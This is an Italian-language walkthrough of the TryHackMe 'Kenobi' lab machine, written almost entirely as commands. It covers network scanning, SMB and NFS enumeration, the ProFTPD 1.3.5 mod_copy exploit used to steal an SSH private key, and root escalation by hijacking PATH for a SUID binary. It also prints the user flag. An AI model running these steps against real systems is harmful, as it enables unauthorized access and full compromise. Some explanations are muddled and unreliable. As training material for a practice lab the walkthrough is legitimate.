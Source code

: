 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/kenobi

```
sudo openvpn ~/Downloads/dominion99.ovpn
```

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.228.197 -oG risultatoscan
```

```
sudo nmap -sC -sV -p21,22,80,111,139,445,2049 10.10.228.197 -oN risultatoscan2
```

==vedere risorse condivise samba con nmap==
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.228.197
```
==connettiamoci ad una risorsa condivisa samba== 
```
smbclient //10.10.41.12/anonymous
```

```
ls
```

```
get log.txt
```
leggiamo log.txt troviamo 
Your identification has been saved in /home/kenobi/.ssh/id_rsa
che ci da accesso ad ssh senza mettere le credenziali

Poi abbiamo attivo servizio
ServerName                      "ProFTPD Default Installation"

ed abbiamo
User                            kenobi
Group                           kenobi


Puoi anche scaricare in modo ricorsivo la  cartella della condivisione SMB trovata senza utente e  password 
```
smbget -R smb://10.10.216.21/anonymous
```

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.41.12
```
troviamo una risorsa condivisa nel percorso
```
 /var *
```





==vulnerabilità con nmap script==
```
nmap -PN --script vuln -p21,22,80,111,139,445,2049 --script http-enum 10.10.41.12 -oN vuln.txt
```
enumeriamo la porta 111 che è un servizio ==rpcbind== Questo è solo un server che converte il numero di programma RPC (Remote Procedure Call) in indirizzi universali. Quando un servizio RPC viene avviato, comunica a rpcbind l'indirizzo al quale è in ascolto e il numero del programma RPC che è pronto a servire.

ci connettiamo con netcat su porta 21 per scoprire che versione è in esecuzione
```
nc 10.10.216.21 21
```
ci da la versione del ProFTPD 1.3.5 Server

```
searchsploit ProFTPD 1.3.5
```

Dovresti aver trovato un exploit dal [modulo mod_copy](http://www.proftpd.org/docs/contrib/mod_copy.html) di ProFtpd . 
Il modulo mod_copy implementa i comandi **SITE CPFR** e **SITE CPTO** , che possono essere utilizzati per copiare file/directory da un posto all'altro sul server. Qualsiasi client non autenticato può sfruttare questi comandi per copiare file da qualsiasi  parte del filesystem a una destinazione scelta.

Sappiamo che il servizio FTP è in esecuzione come utente Kenobi (dal file sulla condivisione) e viene generata una chiave ssh per quell'utente.

quindi ci ricolleghiamo con netcat
```
nc 10.10.216.21 21
```
e copiamo la chiave id_rsa
```
SITE CPFR /home/kenobi/.ssh/id_rsa
```

```
SITE CPTO /var/tmp/id_rsa
```
ora la montiamo

```
mkdir /mnt/kenobiNFS  
```

```
mount 10.10.216.21:/var /mnt/kenobiNFS  
```

```
ls -la /mnt/kenobiNFS
```

```
cd /mnt/kenobiNFS/tmp
```
copiamo la chiave
```
cp id_rsa /home/kali/Downloads
```

```
cd /home/kali/Downloads
```
gli diamo i permessi
```
sudo chmod 600 id_rsa
```
e ci colleghiamo tramite ssh
```
ssh -i id_rsa kenobi@10.10.216.21
```

```
cat user.txt
```

d0b0f3f53b6caa532a83915e19224899

==ora scaliamo i privilegi==

troviamo tutti gli archivi che possiamo utilizzare come proprietari del binario suid
```
find / -perm -u=s -type f 2>/dev/null
```
troviamo di strano
```
/usr/bin/menu
```
==comando strings== ci fa vedere il codice del binario
```
strings /usr/bin/menu
```

```
echo $PATH
```
ci fa vedere dove viene eseguito il comando e le varie rotte

/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

modificando le rotte possiamo avere una bash come super user

```
echo /bin/sh > curl
```
Il comando "echo /bin/sh > curl" scrive il percorso del file "/bin/sh" nel file chiamato "curl". Questo comando non ha alcun effetto diretto sull'esecuzione di un comando curl. Tuttavia, se si intende eseguire un comando curl con lo shell script "/bin/sh", è possibile farlo utilizzando il percorso diretto del comando curl nel file "/bin/sh".
```
ls
```

```
chmod 777 curl
```

```
cp curl /tmp
```

```
cd /tmp
```

```
export PATH=/tmp:$PATH
```
Il comando "export PATH=/tmp=$PATH" imposta la variabile di ambiente PATH in modo che includa il percorso "/tmp" prima degli altri percorsi già presenti nella variabile PATH
In questo modo, il percorso "/tmp" viene aggiunto alla variabile PATH, consentendo al sistema di cercare eseguibili anche in quella directory quando si digita un comando nel terminale.

```
curl
```

```
/usr/bin/menu
```

Abbiamo copiato la shell /bin/sh, l'abbiamo chiamata curl, le abbiamo dato i permessi corretti e poi abbiamo inserito la sua posizione nel nostro percorso. Ciò significava che quando veniva eseguito il binario /usr/bin/menu, veniva utilizzata la nostra variabile di percorso per trovare il binario "curl". Che in realtà è una versione di /usr/sh, così come questo file viene eseguito come root esegue la nostra shell come root!

ora selezioniamo 1
scriviamo
```
whoami
```
==e vediamo che siamo root!==
```
cd /root
```

```
cat root.txt
```

```
177xxxxxxxxxxxxxxx
```

```
flag ottenuta!
```

